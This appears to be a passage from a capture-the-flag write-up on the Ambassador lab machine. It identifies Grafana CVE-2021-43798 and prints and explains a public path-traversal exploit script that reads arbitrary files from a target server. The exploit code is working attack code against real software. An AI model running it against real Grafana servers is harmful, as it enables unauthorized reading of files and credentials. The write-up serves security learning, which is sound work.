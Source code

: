 The one in 8.3.0 is labeled directory traversal and arbitrary file read. That version is one minor version up from what’s running on Ambassador, which is close enough that I should try it.

A bit more research shows that this is [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/cve-2021-43798).

#### Exploit Analysis

I’ll grab a copy of the exploit script to take a look with `searchsploit -m multiple/webapps/50581.py`.

`main` just takes a host and then passed that to `exploit`:

```

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return

```

`exploit` drops into a `while True` loop, reading a file, and then fetching it with a random choice from a long list of plugins:

```

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

```

